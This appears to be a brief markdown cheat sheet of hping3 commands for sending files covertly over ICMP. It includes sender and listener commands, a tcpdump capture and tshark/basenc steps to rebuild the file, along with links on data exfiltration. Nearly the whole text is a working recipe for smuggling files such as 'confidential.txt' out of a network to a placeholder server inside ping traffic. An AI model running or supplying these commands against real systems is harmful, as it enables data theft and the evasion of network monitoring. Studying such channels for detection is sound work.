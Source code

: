 # Hping3

https://www.commandlinefu.com/commands/view/12851/sending-a-file-over-icmp-with-hping

```
# hping3 -I <interface> -9 <IP> -e MYSIG > confidential.txt
```

The sender

```
# hping3 <server_IP> --icmp --sign MSGID1 -d 50 -c 1 --file a_file
```

The reciever

```
# hping3 -I eth0 --listen <server_IP> --sign MSGID1
```

## Using tcpdump

https://secforge.io/blog/hping3

https://www.phoenixinfosec.com/post/data-exfiltration-with-hping3

```
# hping3 -1 -E file.txt -u -d 1500 <server_IP>

# tcpdump -i <interface> "icmp and src host <client_IP>" -w file.pcap
```

To extract the data.

```
$ tshark -n -q -r file.pcap -T fields -e data.data | tr -d "\n" | tr -d ":" > hex.txt

$ basenc -d --base16 hex.txt
```